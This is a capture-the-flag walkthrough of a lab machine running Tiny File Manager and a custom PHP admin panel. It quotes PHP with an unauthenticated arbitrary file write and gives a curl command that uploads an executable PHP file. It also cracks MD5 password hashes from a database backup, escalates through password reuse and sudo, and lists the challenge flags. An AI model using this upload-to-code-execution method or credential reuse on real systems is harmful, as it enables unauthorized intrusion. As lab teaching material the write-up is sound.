





# Checking the site

Visiting the ip:port in a browser <http://10.10.8.10:3123/> shows a `Tiny File Manager`.



# File Manager

The source is available at <https://github.com/prasathmani/tinyfilemanager>.



The default credentials work, but only for read-only access. This can still be used for looking around what else is on the server.

The following files can be found. 

# Admin panel

A custom admin panel without a backend database, but there is a corresponding backup.

The `admin/ajax.php` file.

```php
<?php
...
$action = $_GET['action'];
include 'admin_class.php';
$crud = new Action();
...
if($action == "save_page"){
	$save = $crud->save_page();
	if($save)
		echo $save;
}
 
if($action == "save_page_img"){
	$save = $crud->save_page_img();
	if($save)
		echo $save;
}
...
?> 
```

The `admin/admin_class.php` file.

```php
<?php
...
Class Action {
	private $db;
 
	public function __construct() {
		ob_start();
   	include 'db_connect.php';
    
    $this->db = $conn;
	}
	function __destruct() {
	    $this->db->close();
	    ob_end_flush();
	}
...
	function save_page(){
		extract($_POST);
		// if()
		if(!empty($page_content)){
			$save = file_put_contents('../'.$filename, $page_content);
			if($save)
				return 1;
		}else{
			$fh = fopen('../'.$filename, 'w' );
			fclose($fh);
				return 1;
		}
	}
...
}
?> 
```

Based on the 2 php files above, any file can be uploaded, there is no authentication. The php files uploaded are executable.

```bash
curl -v -X POST 'http://10.10.8.10:3123/admin/ajax.php?action=save_page' -d "filename=test.php&page_content=it works<?php phpinfo();?>" 
```

# Database backup

The database backup `database/college_website_db.sql`.

```sql
INSERT INTO `users` (`id`, `name`, `username`, `password`, `type`) VALUES
(1, 'Administrator', 'admin', '0192023a7bbd73250516f069df18b500', 1);

--INSERT INTO `users` (`id`, `name`, `username`, `password`, `type`) VALUES
--(2, 'Apollo', 'apollo', '64024c4afaac000b12ddcd2e0c51512b', 1);
```

The md5 hashes can be recovered: `admin123` and `apollo13`.

# Shell

Our favorite web/reverse shell can be used for unrestricted code after the upload. The flag is in `apollo`'s home directory.



# Flag local
`{HCSC}-L0c@l_Fl4G:Ap0llo`

# Apollo

Checking the users, `apollo` can be found. Also the local flag was there. Using the password `apollo13` from the database backup works. The user also has sudo rights. The flag is in the `/root/` directory.



# Flag root
`{HCSC}-Ro07:Fl4G_oN$Ap0llO`

# Spoiler

Apollo has users on other challenges. His admin password is reused later, but there is an ssh key pair in his home folder.

